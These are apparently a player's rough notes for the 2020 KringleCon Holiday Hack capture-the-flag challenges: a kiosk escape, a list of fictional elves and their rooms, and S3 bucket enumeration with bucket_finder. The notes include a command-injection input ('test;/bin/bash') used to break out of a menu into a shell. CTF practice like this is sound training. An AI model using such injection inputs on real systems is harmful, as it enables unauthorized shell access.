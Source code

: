 What is Santa giving to Josh Wright?
Unswirl the photo https://2020.kringlecon.com/textures/billboard.png


Front Lawn outside Castle

1. Kiosk
 - Escape to shell by selecting option 4 - cowsay. Enter: test;/bin/bash

shinny@4b7786e43929:/home/elf$ ./runtoanswer ejm96
Sorry, that answer is incorrect. Please try again!
shinny@4b7786e43929:/home/elf$ ./runtoanswer -h   
D'aww, people hardly ever ask me for help! Nice to meet you!
The usage is really easy, we promise! Just pass your answer as a commandline argument, lik
e:
    ./runtoanswer MyWonderfulAnswer
Or just run ./runtoanswer by itself, and it'll ask for your answer!
Bye now!
shinny@4b7786e43929:/home/elf$ 

 - Option: "plant"
cat /opt/plant.txt
Enter choice [1 - 5] plant
  Hi, my name is Jason the Plant!
  ( U
   \| )
  __|/
  \    /
   \__/ ejm96
Sleeping for 10 seconds..

/opt/directory.txt
Name:                 Floor:   Room:
Ribb Bonbowford       1        Dining Room
Noel Boetie           1        Wrapping Room
Ginger Breddie        1        Castle Entry
Minty Candycane       1.5      Workshop
Angel Candysalt       1        Great Room
Tangle Coalbox        1        Speaker UNPreparedness
Bushy Evergreen       2        Talks Lobby
Holly Evergreen       1        Kitchen
Bubble Lightington    1        Courtyard
Jewel Loggins                  Front Lawn
Sugarplum Mary        1        Courtyard
Pepper Minstix                 Front Lawn
Bow Ninecandle        2        Talks Lobby
Morcel Nougat         2        Speaker UNPreparedness
Wunorse Openslae      R        NetWars Room
Sparkle Redberry      1        Castle Entry
Jingle Ringford                NJTP
Piney Sappington      1        Castle Entry
Chimney Scissorsticks 2        Talks Lobby
Fitzy Shortstack      1        Kitchen
Alabaster Snowball    R        NetWars Room
Eve Snowshoes         3        Santa's Balcony
Shinny Upatree                 Front Lawn
Tinsel Upatree        3        Santa's Office



Investigate S3 Bucket

elf@cbce7726eaec:~/bucket_finder$ ./bucket_finder.rb --log-file bucket.out wordlist 
http://s3.amazonaws.com/kringlecastle
Bucket found but access denied: kringlecastle
http://s3.amazonaws.com/wrapper
Bucket found but access denied: wrapper
http://s3.amazonaws.com/santa
Bucket santa redirects to: santa.s3.amazonaws.com
http://santa.s3.amazonaws.com/
        Bucket found but access denied: santa
elf@cbce7726eaec:~/bucket_finder$ less bucket_finder.rb 

Add wrapper3000 to wordlist.
download: http://s3.amazonaws.com/wrapper3000/package

package.txt:
North Pole: The Frostiest Place on Earth